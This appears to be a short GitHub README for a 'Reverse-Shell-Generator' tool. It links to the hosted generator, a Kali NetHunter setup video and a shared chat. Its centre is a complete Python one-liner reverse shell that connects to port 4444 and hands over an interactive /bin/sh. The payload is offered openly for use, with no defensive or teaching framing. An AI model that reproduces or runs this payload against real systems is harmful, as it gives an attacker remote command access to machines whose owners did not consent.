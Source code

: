 # Reverse-Shell-Generator

<div align="center">
</div>

![3](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExb2RmbnpoZ2Y5c3MxdnU1ajk5ZGU5MDN3YzNhaHR4Z3o2ZGN6aGVucCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/fdOA43sHFE6Pu/giphy.gif)

</div>

## Link
```
https://devvj-1.github.io/Reverse-Shell-Generator/
```

## 🔧 Linux  Troubleshooting commands 
```
https://chatgpt.com/share/74ea2fe2-6b6d-400e-bfee-1a434763a162
```

## Python payload 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Screenshot 2024-06-08 015037](https://github.com/DevVj-1/Reverse-Shell-Generator/assets/106962581/13b0947b-d1bd-43af-bb1b-b9a2fc6063e2)

## Setup rootless kali Nethunter on Android

https://youtu.be/fqaSEbaYkJQ?si=b8u3mB2aq8Y4C9Hk

